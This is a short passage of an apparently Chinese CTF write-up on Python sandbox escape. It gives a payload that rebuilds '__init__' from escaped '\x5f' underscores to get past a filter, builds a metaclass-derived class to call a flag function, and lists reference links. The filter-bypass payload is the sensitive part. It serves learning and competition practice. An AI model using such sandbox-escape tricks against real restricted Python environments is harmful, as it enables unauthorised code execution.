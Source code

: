 因为这时的下划线在引号中，所以可以使用 "\x5f" 来代替

??? success "payload"
    - add method `x`: `#!python e="\x5f"*2;self.d={e+"init"+e:print}`
    - add method `y`: `#!python self.m=type('',(MasterMetaClass,),self.d)`
    - add method `z`: `#!python self.m('',(),{}).IWantGETFLAGPlz(1)`
    - call `x`
    - call `y`
    - call `z`

## Reference
- [TokyoWesterns CTF 4th 2018 Writeup — Part 5](https://infosecwriteups.com/tokyowesterns-ctf-4th-2018-writeup-part-5-6d699f07f71c)
- [Documentation of ast](https://docs.python.org/3/library/ast.html)
- [一文看懂Python沙箱逃逸 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/203208.html)
- [https://blog.gztime.cc/posts/2021/83a30666/](https://blog.gztime.cc/posts/2021/83a30666/)